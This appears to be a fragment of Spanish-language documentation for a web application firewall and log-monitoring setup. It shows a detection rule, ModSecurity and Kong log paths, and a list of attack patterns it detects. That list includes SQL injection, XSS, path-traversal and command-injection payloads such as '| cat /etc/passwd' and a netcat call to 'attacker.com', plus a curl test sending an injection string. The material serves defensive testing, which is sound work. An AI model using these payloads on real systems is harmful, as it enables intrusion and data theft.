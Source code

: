 **Múltiples Ataques (100014)**
```xml
<rule id="100014" level="12" frequency="10" timeframe="120">
  <if_matched_sid>100010</if_matched_sid>
  <description>Múltiples ataques web desde la misma IP</description>
  <mitre>
    <id>T1190</id>
  </mitre>
  <group>web,attack,owasp,multiple_attacks,</group>
</rule>
```

### Fuentes de Datos

| Servicio | Log Path | Formato |
|----------|----------|---------|
| ModSecurity | `/var/log/modsec_audit.log` | Audit |
| Kong Access | `/var/log/kong/access.log` | JSON |
| Kong Error | `/var/log/kong/error.log` | JSON |

### Tipos de Ataques Detectados

1. **SQL Injection**
   - `' OR '1'='1`
   - `UNION SELECT`
   - `DROP TABLE`

2. **XSS (Cross-Site Scripting)**
   - `<script>alert('xss')</script>`
   - `<img src=x onerror=alert(1)>`
   - `javascript:alert(1)`

3. **RCE (Remote Code Execution)**
   - `; ls -la`
   - `| cat /etc/passwd`
   - `$(whoami)`

4. **Path Traversal**
   - `../../etc/passwd`
   - `....//....//etc/passwd`

5. **Command Injection**
   - `; ping -c 10 127.0.0.1`
   - `| nc attacker.com 4444`

### Testing

**SQL Injection:**
```bash
curl "http://<waf-ip>:8000/api/users?id=1' OR '1'='1"
```
